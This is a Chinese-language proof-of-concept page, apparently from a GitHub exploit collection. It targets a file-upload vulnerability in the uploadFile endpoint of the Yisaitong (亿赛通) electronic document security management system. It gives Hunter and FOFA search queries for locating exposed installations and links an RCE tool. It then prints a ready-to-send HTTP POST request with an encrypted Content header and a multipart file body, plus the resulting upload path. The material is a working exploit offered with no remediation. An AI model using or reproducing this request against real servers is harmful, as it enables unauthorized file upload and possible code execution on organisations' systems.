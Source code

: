 ## 亿赛通电子文档uploadFile接口文件上传漏洞


## Hunter语法：
```
web.icon=="9fd216c3e694850445607451fe3b3568"
```
## fofa
```
app="亿赛通-电子文档安全管理系统"
```

## 工具
```
https://github.com/0xf4n9x/CDGXStreamDeserRCE
```
将head 中的Content 解密
![image](https://github.com/wy876/POC/assets/139549762/365c3394-4f8e-43aa-9fac-d12e069ca53a)


## poc
```
POST /file/uploadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 143
Content: MGIFOACOKLJAHOGCPPOBDFLGJFPACJJKLFGFOBDNHAGLEDGALNKAEHDLMEOODCBFDIMEFNGHCMGBPABDLPPCHCLMAELIDDCLOGNPOCGHIEFJHIOEIIPPJBCIFCPDOKIOMKPPDGPHCALHOJNNBLJBHGLMPBFICDGGMMOLGLGMIHOOFLHLBEHNIHOPOEKKIPHCMJAOMGMNPFINKHMPBFOJBJPNLNKILIOCLAEPIKJDNOJHELELCOLLAKKAPFFPFGPMOLGPBDAHIHKEFDIFPDMDKDDKNMOGMLDEMBEAMFOOCECFKCKHJBDDMIENNFFMABEFNKCCIAIJIKGDAOGCDMNCNEGOGBNJIJFBBEBODAPNLOFJMOGCJGMOCHNJALDDDKLPGM
Content-Type: multipart/form-data; boundary=0ac445a70ef9526aeb69efb4569810d6
Accept-Encoding: gzip, deflate, br
Connection: close

--0ac445a70ef9526aeb69efb4569810d6
Content-Disposition: form-data; name="file"; filename="file"

123
--0ac445a70ef9526aeb69efb4569810d6--
```

![image](https://github.com/wy876/POC/assets/139549762/96ae7af1-6607-45de-856e-6c248a8791f6)

文件上传地址
http://ip:/CDGServer3/3g/X.jsp



